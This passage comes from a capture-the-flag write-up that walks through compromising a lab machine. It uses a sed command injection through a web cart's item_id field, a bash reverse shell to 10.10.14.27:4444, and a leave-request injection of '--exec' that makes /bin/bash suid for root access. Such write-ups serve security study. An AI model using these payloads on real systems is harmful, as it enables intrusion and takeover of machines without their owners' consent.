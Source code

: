 ```
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.27/4444 0>&1
```

then set up a listener.

The attack would work as follows:

1. Add an item to the cart
2. Use the filename of the item server-side as my `user_id`
3. Using the valid `item_id` from above, modify it to use my script
4. `system()` will then execute `sed -e`, in turn executing my script

First, I obtained the format of a valid item by adding one to the cart.

![image](/assets/images/awkward/awkward32.png)

At this stage I realized that while I can read the cart and write files to the cart directory, I couldn't directly edit the item file. However, I could replace the original item file, giving my malicious item file the same name (having renamed the original).

Given the way the `item_id` is parsed with `sed`, I needed to add the following to the `item_id`:

```
' e "1e /tmp/hewwo.sh" /tmp/hewwo.sh '
```

The final malicious item file therefore looked like this:

![image](/assets/images/awkward/awkward33.png)

Then, I deleted the item from the cart, changing the `item` parameter in the POST request to match, and obtained a shell:

![image](/assets/images/awkward/awkward34.png)

![image](/assets/images/awkward/awkward35.png)

![image](/assets/images/awkward/awkward36.png)

As discussed earlier, I now had a very simple method to privesc to root via `mail --exec` by adding an entry to `leave_requests.csv`. For reliability, I decided to use my malicious script to make bash suid, calling this script `uwu.sh`:

```
#!/bin/bash
chmod +s /bin/bash
```

which as before I put in `/tmp`. Note that I had come back after a break at this point and needed to start the machine again, hence the changed IP addresses in what follows. 

I then added the malicious leave request as the webserver:


```
echo '" --exec="\!/tmp/uwu.sh"' >> leave_requests.csv
```

Back in the shell as `bean`, I successfully obtained root.

![image](/assets/images/awkward/awkward37.png){:height="50%" width="50%"}








